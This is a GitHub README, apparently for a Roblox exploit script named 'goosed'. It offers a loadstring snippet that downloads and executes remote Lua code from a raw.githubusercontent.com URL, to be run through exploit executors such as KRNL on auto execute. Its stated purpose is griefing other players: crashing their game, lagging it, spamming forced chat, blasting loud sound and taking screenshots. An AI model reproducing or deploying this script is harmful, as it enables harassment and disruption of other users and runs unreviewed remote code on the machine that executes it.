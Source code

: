 # goosed!!!

this script is best used on auto execute.
# Loadstring

```_G.CrashMinutes = 1 -- changes how long until the game crashes
_G.Disco = true -- changes the changing colors
_G.ChatLol = true -- makes you chat or not
_G.FovChanger = true -- changes your fov
_G.SoundId = "http://www.roblox.com/asset/?id=6817682704" -- set to your sound

loadstring(game:HttpGet('https://raw.githubusercontent.com/gooserblx/youhavebeengoosed/main/realshit'))()
```
# Features

This script can do numerous annoying things! Like..

- Play loud music!
- Crash their roblox!
- Make them say "lol" so fast they can't chat!
- Change their FOV! 
- Lag their game!
- Take tons of screenshots!

# Executors

This script is compatible with ANY executor!!!

Except JJsploit, don't ever use JJSploit just use KRNL instead.

# Credits

Deving stuff: Me

Everything: Me

Coolness: Me!

